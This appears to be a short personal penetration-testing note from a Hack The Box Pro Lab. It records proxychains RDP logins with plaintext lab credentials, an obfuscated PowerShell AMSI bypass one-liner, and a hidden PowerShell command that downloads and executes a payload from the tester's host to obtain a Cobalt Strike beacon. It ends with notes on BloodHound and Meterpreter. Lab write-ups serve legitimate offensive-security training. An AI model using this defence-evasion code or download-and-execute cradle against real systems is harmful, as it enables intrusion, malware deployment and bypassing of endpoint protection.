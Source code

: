utilized credentials found here to xfreerdp on
[[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/logins.xlsx]]
```bash
[root💀~/offshore/ms01/scans] [10.10.14.39] [2023-10-20 15:01:55]                                                                                        
 └─╼ # proxychains xfreerdp /u:ned.flanders_adm /d:corp.local /p:Lefthandedyeah! /v:172.16.1.36
 proxychains rdesktop -d corp.local -u ned.flanders_adm -p Lefthandedyeah! 172.16.1.36

proxychains xfreerdp /u:calde_ldap /d:alchemy.htb /p:CsAdlLDAPMoDeBrnd12! 172.16.0.2 
```
once on in order to get a beacon to cobaltstrike server had to utilize an *amsi bypass*
#amsibypass 
https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4
```powershell
#obfuscated oneliner amsi bypass
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
ran command below to get beacon after *amsi bypass*
#cobaltstrike #beacon
```bash
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.14.39:80/a'))"
```
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/3. 172.16.1.36 -CORP-WSADM/screenshots/Pasted image 20231020162744.png]]

BloodHOUND! next, CORE Impact, unable to session pass to meterpreter. 